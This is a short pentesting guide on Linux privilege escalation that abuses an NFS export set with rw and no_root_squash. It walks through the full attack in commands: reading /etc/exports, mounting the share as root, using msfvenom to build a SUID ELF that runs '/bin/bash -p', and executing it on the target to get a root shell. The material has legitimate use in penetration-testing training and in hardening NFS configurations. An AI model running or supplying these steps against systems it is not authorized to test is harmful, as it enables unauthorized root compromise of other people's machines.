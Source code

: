 # Privileges Escalation - Linux
# NFS Server exploitation

When we're inside the target machine, we have to check if it's an **NFS (Network File System) server**, in which we could mount locally directories from remote and try to exploit the NFS vulnerability (if there's one).

- [First step - on the target](#first-step---on-the-target)
- [Second step - on our machine](#second-step---on-our-machine)
- [Last step - on the target](#last-step---on-the-target)


## First step -  on the target
- Check if it's an NFS server with `cat /etc/exports`.
  - The output should be `<Remote dir> <Target IP>(<Permissions>)`
  - No output if no NFS service running on it.
- If we get `rw` permissions and also `no_root_squash` option, **we found a vulnerability**, so we can proceed.
  - `no_root_squash` option means that if the client loads a file with UID = 0 (root), the NFS server keeps it. 

## Second step - on our machine
- We have to log in as root, so `sudo su`.
- Then let's create the NFS share:\`mkdir /tmp/nfs`.
- And let's mount the remote directory on it:<br>`mount -o rw,vers=3 <Target IP>:<Remote dir> /tmp/nfs` 
- Now we have to create a `rootshell.elf` file to run a privileged shell:<br>`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/rootshell.elf`
- In the end, let's set the SUID bit: `chmod +xs /tmp/nfs/rootshell.elf` 

## Last step - on the target
- We can now launch the privileged shell from the exposed directory (`/tmp`) with `/tmp/rootshell.elf`.
- We should be able to gain access to a root shell. Check it with `whoami`.



